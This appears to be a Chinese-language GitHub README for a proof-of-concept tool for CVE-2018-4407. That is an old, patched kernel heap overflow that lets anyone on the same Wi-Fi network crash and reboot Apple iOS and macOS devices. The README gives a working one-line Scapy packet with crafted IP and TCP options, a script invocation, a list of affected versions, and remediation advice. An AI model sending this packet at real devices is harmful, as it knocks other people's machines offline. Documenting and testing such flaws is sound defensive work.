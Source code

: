 # check_icmp_dos

***iOS 12 / OS X *Remote Kernel Heap Overflow (CVE-2018-4407) POC：***
```
pip install scapy
sudo scapy 
send(IP(dst=“Target IP“,options=[IPOption(“A”*8)])/TCP(dport=2323,options=[(19, “1"*18),(19, “2”*18)]))

```

或使用脚本

```
python check_icmp_dos.py 127.0.0.1
```

该漏洞使得攻击者只要接入同一Wi-Fi网络，即可向其他毫不知情的用户发送恶意数据包来触发任何Mac或iOS设备的崩溃和重启。由于该漏洞存在于系统网络核心代码，因此任何反病毒软件均无法防御。

运行以下操作系统的设备易受攻击：
```
Apple iOS 11及更早版本：所有设备（升级到iOS 12的部分设备）

Apple macOS High Sierra（受影响的最高版本为10.13.6）：所有设备（通过安全更新2018-001修复）

Apple macOS Sierra（受影响的最高版本为10.12.6）：所有设备（通过安全更新2018-005中修复）

Apple OS X El Capitan及更早版本：所有设备

```



# 修复建议

目前，苹果官方已经发布了ios12.1版本更新修复了该漏洞，建议用户及时确认系统版本，如受影响，请及时采取修补措施。漏洞修补措施如下：
1. 进行系统更新，更新到最新版本
2. 如果没有更新到最新版本，可在macOS防火墙中启用隐藏模式可防止攻击，这个系统设置默认情况下不启用，需要用户手动开启。
3. 不接入公共无线网络。触发该漏洞的唯一必要条件是处于同一网络，该漏洞不支持通过互联网发送恶意数据包而触发
